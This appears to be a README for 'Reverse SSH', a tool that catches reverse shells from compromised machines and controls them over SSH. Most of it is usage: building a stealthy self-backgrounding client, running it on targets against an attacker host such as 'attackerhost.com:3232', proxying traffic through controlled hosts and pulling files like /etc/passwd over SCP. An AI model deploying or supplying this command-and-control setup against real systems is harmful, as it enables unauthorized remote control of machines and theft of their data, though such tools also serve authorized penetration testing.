 # Reverse SSH

Ever wanted to use SSH for reverse shells? Well now you can.  

The reverse SSH server lets you catch multiple reverse shells, using the fully statically compiled reverse shell binary.

```text
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |         |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```

## TL;DR

```sh
make
cd bin/

cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232

#copy client to your target 
./client attackerhost.com:3232

#connect to the server from your attacker host
ssh localhost -p 3232
```

## Setup Instructions

```sh
make
```

Make will build both the `client` and `server` binaries. It will also generate a private key for the `client`, and copy the corresponding public key to the `authorized_controllee_keys` file to enable the reverse shell to connect.
If you need to build the client for a different architecture.

```sh
GOOS=linux GOARCH=amd64 make client
GOOS=windows GOARCH=amd64 make client # will create client.exe
```

You will need to create an `authorized_keys` file, containing *your* public key.
This will allow you to control whatever server catches.

```sh
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control.

```sh
./client yourserver.com:3232
```

Then connect to your reverse shell catcher server:

```sh
ssh yourserver.com -p 3232
```

## Features

### Proxy

Using just the general dynamical forward `-D` flag you can proxy network traffic to your controlled hosts.

First you connect to your reverse shell catcher.

```sh
ssh -D 9050 catcher.com -p 3232
```

Then use the `proxy connect <remote_id>` command to connect to your reverse shell.

```sh
catcher$ proxy connect 0bda3b12d3ce83f895632d412261073dc93dba3e 
Connected: 0bda3b12d3ce83f895632d412261073dc93dba3e
catcher$ 
```

After this, just point your tools/web browser to the socks5 port open on your local machine (in this example on port 9050) and you're away laughing.

You can obviously only proxy to one host at a time.

### SCP

You can transfer files to and from your controlled hosts using SCP. Essentially you address which host you want to download/upload to by `<ip_address>:<remote_id>:/path/here`.

e.g to upload the directory test to the host `0be2782caae4bedff780e14526f7618ab61e24fa`:

```sh
scp -r -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:$(pwd -P)/test2
```

Or to download `/etc/passwd` from a host:

```sh
scp -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:/etc/passwd
```

### Shell

On connection you will be presented by a list of controllable clients, e.g:

```sh
catcher$ ls
                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root@wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+
```

Use `help` or press `tab` to view commands.  
Tab will auto complete entries.
So you you wanted to connect to the client given in the example:

```sh
> connect a<TAB>
```

Will auto complete the entry for you and on enter will connect you to your reverse shell.

### Default Server

At build time, you can specify a default server for the client binary to connect to:

```sh
$ RSSH_HOMESERVER=localhost:1234 make

# Will connect to localhost:1234, even though no destination is specified
$ bin/client

# Behaviour is otherwise normal; will connect to example.com:1234
$ bin/client example.com:1234
```

## Foreground vs Background

By default, clients will run in the background. When started they will start a new background instance and then exit, printing a message like 'Ending parent'. Most processing is then done in the background.

This has one important ramification: no output from the background process will appear in the terminal. This is intentional and is for stealth reasons. However this *also* means that failures will not be reported: e.g. if the client can't reach the server, this will not be visible.

If necessary, use the `--foreground` flag to prevent this - all output will be printed to the terminal/windows command shell, which can be useful for debugging purposes.

